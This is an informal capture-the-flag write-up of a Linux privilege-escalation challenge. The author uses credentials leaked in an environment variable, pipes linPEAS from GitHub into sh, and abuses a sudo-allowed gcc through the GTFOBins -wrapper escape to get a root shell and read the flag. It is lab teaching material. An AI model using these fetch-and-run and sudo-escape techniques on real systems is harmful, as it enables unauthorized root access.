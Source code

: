 # CTF Writeup:  Town Pulse

## Challenge Overview
* **Category:** OS Exploitation
* **Difficulty:** ["Easy"]
* **Description:** We have access to a linux box, need to find vulnerabile configuration to escalate privileges and find flag. 


## Tools Used

- [linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
- [GTFOBins](https://gtfobins.github.io/)
- bash

---

## Solution

Usual disclaimer here: the following solution was the one that worked and there was some trial and error to find it. Omitting those dead-ends for brevity.  

### Step 1: Initial Access

```bash
ssh Pentester@<ip>

# no response
```

```bash
nmap -sV <ip>

#shows diff port
```

```bash
ssh -p 2222 Pentester@<ip>
```


Challenge requires privilege escalation so let's go script kiddie and fetch a tool to search for privilege escalations ("privesc" as it's call in "the biz"):

```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

```

Under Environment we see `JOAN_TEMPORARY_CREDS=jojocreds1`

Well well well. For reasons mysterious there are temp creds for another user in our environment of our account. Let's try sshing into their account and see what permissions they have. Fingers crossed they're in sudoers and we can use their privilege to escalate ours **sinister laughing**. 

What's our target account though? 

```bash
ls /home/
# shows JOan 
```
Its probably the joan account. 

```bash

ssh joan@localhost
# no response
```

---

### Step 2: Priv Esc

Now we have access to joan's account, see what groups she's in

```bash
groups
Joan sudo
```

Cool, now let's add our pentester account to sudoers

```bash
sudo usermod -aG sudo Pentester
Sorry, user Joan is not allowed to execute '/usr/sbin/usermod -aG sudo Pentester' as root on dad5f987a15f."
```

Rubbing the brow here as I was heading for a PB for unfinished challenges in this event. Thankfully team-work makes the dream work and I looked to the east for a teammate wizard saviour:

![image](./gandalf-white.gif)

Lol, thanks wizard 🧙 10 seconds, one command, and a URL later: 

```bash
sudo -l
(ALL) NOPASSWD: /usr/bin/gcc
```

https://gtfobins.github.io/gtfobins/gcc#sudo

Doopdeedoop, let's try that command

```bash
gcc -wrapper /bin/sh,-s .
sudo usermod -aG sudo Pentester
exit
exit
# to log out the pentester and apply the new group, then ssh back in.
```

```bash
ssh -p 2222 Pentester@<ip>
```

```bash
groups
Pentester sudo
```

Huzzah. Now what commands can we run as sudo?
```bash
sudo -l
(ALL) NOPASSWD: /usr/bin/gcc
```

Run that GTFOBin again. 

And Bam! we're root.  

---

### Step 3: Flag Retrieval

Now we are gods, the flag's gotta be here somewhere, normally I use find (looking for flag.txt) or grep (looking for string FLAG within a file) on the entire file system. Trying find first

```bash
find / -name flag.txt -type f
/root/flag.txt
```

Looks promising. 

```bash
cat /root/flag.txt
FLAG{7H15_SUDO_C00K3D_R007}
```

![image](./victory.gif)


---

## Notes

- Don't be afraid to ask for help when you get blocked. Difficult for you can be easy for someone else and vice versa. 
- As a team, set up some tools in comms (like threads in channels) to share progress on challenges.
- Linpeas and gftobins are l337h4x0r was to privesc on linux. 🫶

---



